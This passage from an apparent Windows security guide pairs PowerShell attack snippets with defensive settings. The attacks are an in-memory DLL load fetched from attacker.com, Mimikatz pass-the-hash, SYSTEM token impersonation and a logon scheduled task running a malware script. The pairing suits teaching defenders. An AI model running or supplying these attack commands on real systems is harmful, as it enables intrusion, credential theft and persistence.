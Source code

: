 
#### **B. Fileless Attacks (Like in-memory `LD_PRELOAD`)**  
**Technique**: Execute payloads directly in RAM.  
```powershell  
# Reflective DLL injection (no disk write)  
$bytes = (Invoke-WebRequest -Uri "http://attacker.com/shellcode.dll").Content;  
[System.Reflection.Assembly]::Load($bytes).EntryPoint.Invoke($null, $null)  
```  
**Defense**:  
- Enable **AMSI** (Antimalware Scan Interface):  
  ```powershell  
  Set-MpPreference -DisableScriptScanning $false  
  ```  
- Use **Constrained Language Mode**:  
  ```powershell  
  $ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"  
  ```  

---

#### **C. Lateral Movement (Like `sshpass`)**  
**Technique**: Pass-the-Hash with WMI (similar to SSH key abuse).  
```powershell  
# Authenticate to a remote machine using NTLM hash  
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Admin /domain:corp /ntlm:HASH /run:powershell.exe"'  
```  
**Defense**:  
- Disable **NTLM** and enforce **Kerberos**.  
- Block WMI over network:  
  ```powershell  
  Set-NetFirewallRule -Name "WMI-In" -Action Block  
  ```  

---

#### **D. Privilege Escalation (Like `sudo` exploits)**  
**Technique**: Abuse **Token Impersonation** (similar to `sudo -u` hijacking).  
```powershell  
# Steal SYSTEM token (like abusing SUID binaries)  
Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"  
```  
**Defense**:  
- Restrict **SeDebugPrivilege** and **SeImpersonatePrivilege**.  
- Audit token usage:  
  ```powershell  
  Get-WinEvent -LogName Security -FilterXPath '*[System[EventID=4672]]' # Privilege use  
  ```  

---

#### **E. Persistence (Like `cron` backdoors)**  
**Technique**: Hidden scheduled tasks (similar to `cron` jobs).  
```powershell  
# Create a hidden task (evades `schtasks /query`)  
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-File C:\malware.ps1";  
$trigger = New-ScheduledTaskTrigger -AtLogOn;  
Register-ScheduledTask -TaskName "LegitTask" -Action $action -Trigger $trigger -User "SYSTEM" -Force  
```  
**Defense**:  
- Audit tasks with:  
  ```powershell  
  Get-ScheduledTask | Where-Object { $_.TaskPath -notlike "\Microsoft*" }  
  ```  

---